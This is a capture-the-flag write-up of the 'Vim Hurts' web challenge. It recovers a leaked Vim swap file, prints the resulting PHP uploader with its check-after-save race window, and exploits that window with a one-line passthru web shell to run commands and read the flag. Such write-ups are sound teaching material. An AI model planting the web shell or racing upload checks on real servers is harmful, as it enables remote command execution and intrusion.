



# Vim Hurts
> Points: 500

# Description

> Sysadmin like me love Vim! It's one of the beauties that never gets old. Its the part of the hacker culture, if you will. I have configured a web server with secure file upload functionality. My friends say it might not be as secure as I think. I cannot think of any good reason except that maybe I left some trace? Maybe its my poor Vim habit? In case you are wondering, yeah, I still don't know how to exit out of Vim.
>
> `nc 18.141.84.203 61003`
>
> The above port will spawn an instance of your challenge please do not attack it.
>
> Note: Hint #1 can be exchanged on the discord server with fishes. Hints here are hints #2 onwards


# Solution

Starting the challenge and viewing the provided webpage does not provide much information regarding the type of exploit. It seems like it a standard upload page.



Performing enumeration with gobuster and dirsearch, dirsearch shows the following information.
```bash
[15:57:31] 403 -  281B  - /.htpasswd_test
[15:57:31] 200 -   12KB - /.index.php.swp                                  
[15:57:32] 403 -  281B  - /.php                                            
[15:57:43] 200 -    1KB - /index.php                                        
[15:57:43] 200 -    1KB - /index.php/login/
```
There are 2 pieces of information to notice, first being that the webpage is using **php**, next there is a interest file called `.index.php.swp`.

`.swp `in linux are generally vim temporary files. The contents of the `.swp` file can be recovered by running the command `vim -r index.php.swp`

**index.php**
```php
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Upload files securely!</title>
    <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-1BmE4kWBq78iYhFldvKuhfTAU6auU8tT94WrHftjDbrCEXSU1oBoqyl2QvZ6jIW3" crossorigin="anonymous">
    <script src="https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/js/bootstrap.bundle.min.js" integrity="sha384-ka7Sk0Gln4gmtz2MlQnikT1wXgYsOg+OMhuP+IlRH9sENBO0LRn5q+8nbTov4+1p" crossorigin="anonymous"></script>
</head>
<body>
    <div align="center">

        <?php

            define("UPLOAD_DIR", "./uploads/");
            define("ERROR", "Error uploading file!" );

            function check_file($uploaded_file) {

                $ret_val = 0;

                // 10 MB limit
                if ($uploaded_file["size"] > 10485760) {
                    $ret_val = -1;
                }

                $extension = end((explode(".", $uploaded_file["name"])));

                if ($extension !== "png" && $extension !== "jpeg" && $extension !== "jpg") {
                    $ret_val = -1;
                }

                $allowed_formats = array("image/jpeg", "image/jpg", "image/png");

                if (!in_array($uploaded_file["type"], $allowed_formats)) {
                    // Invalid file!
                    $ret_val = -1;
                }

		// Probably add some more checks here...

                return $ret_val;
            }
        ?>

        <div class="text-center card mt-5 shadow p-3 mb-4 bg-white rounded" style="width: 24rem; height: 20rem;">
            <div class="h2 my-5">Secure File Uploader</div>
            <form method="post" enctype="multipart/form-data">
                <div class="form-group">
                <input type="file" name="uploaded_file" class="form-control-file mb-5">
                <br />
                <input type="submit" value="Upload file" class="btn btn-primary" />
                </div>
            </form>
        </div>
        <?php
            if ($_SERVER["REQUEST_METHOD"] == "POST" && !empty($_FILES["uploaded_file"])) {
                $uploaded_file = $_FILES["uploaded_file"];
                if ($uploaded_file["error"] !== UPLOAD_ERR_OK) {
                    // echo $ERROR;
                    echo '<div class="alert alert-danger" role="alert" style="width: 24rem;">File upload failed!</div>';
                }

		else {
			// Check the filename is safe
			$name = preg_replace("/[^A-Z0-9._-]/i", "_", $uploaded_file["name"]);

			// Grab file from the temp dir
			$success = move_uploaded_file($uploaded_file["tmp_name"], UPLOAD_DIR . $name); // this uploads to the /upload directory before checking

			// Quarantine malicious/unexpected file
			if (check_file($uploaded_file) === 0) {
			    // All good..., we can send the success message back!
			    echo '<div class="alert alert-success" role="alert" style="width: 24rem;">File uploaded successfully <a target="_blank" href="/uploads/' . $name . '">here</a>!</div>';
			}
			else {
			    // Something's not right
			    // Quarantine the file!
			    // An alert will be sent to the admin automatically.
			    rename(UPLOAD_DIR . $name, "/tmp/" . $name); // Note this line is ran after the file has been moved to /upload
			    // Send the error message back!
			    echo '<div class="alert alert-danger" role="alert" style="width: 24rem;"><b>Error:</b> Only image files (jpg/png) are allowed!</div>';
			}
		}
            }
        ?>
    </div>
</body>
</html>
```
Notice that it will permit the upload of the file to the `/upload` folder before performing a **check**. It will then move the file if it fails the **check** to the `/tmp` directory. This means that there is a point in time where the file is in  the `/uploads` directory and has not been moved to `/tmp` as the check has not been ran yet. This is similar to a **race condition** but quite the same. 

The payload below will be used as ***shell.php***
```php
<?=passthru($_REQUEST["c"]);?>
```

The ***shell.php*** is uploaded on one tab and on another tab, prepare to execute the command. For example `http://18.141.84.203:62181/uploads/shell.php?c=ls /`



Doing so shows the `/` directory which contains the `/flag.txt`. Now repeating the steps, with this command,  `http://18.141.84.203:62181/uploads/shell.php?c=cat /flag.txt` gives us the flag.



# Flag

`STANDCON22{v!m_swp_f!l3s_c4n_s3rv3_4tt3ck3rs}`
